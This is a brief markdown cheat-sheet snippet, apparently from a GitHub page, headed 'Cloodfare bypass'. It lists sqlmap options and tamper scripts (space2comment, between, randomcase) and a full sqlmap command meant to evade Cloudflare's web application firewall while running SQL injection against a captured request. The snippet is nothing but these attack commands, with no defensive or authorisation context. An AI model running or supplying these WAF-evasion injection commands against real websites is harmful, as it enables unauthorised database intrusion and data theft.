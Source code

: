 # Cloodfare bypass
Sqlmap tamper scripts:

--random-agent --level=5 --risk=3 --tamper="space2comment,between,randomcase"
'''
sqlmap -r req.txt --identify-waf --tamper="between,randomcase,space2comment" -v 3 --random-agent 
'''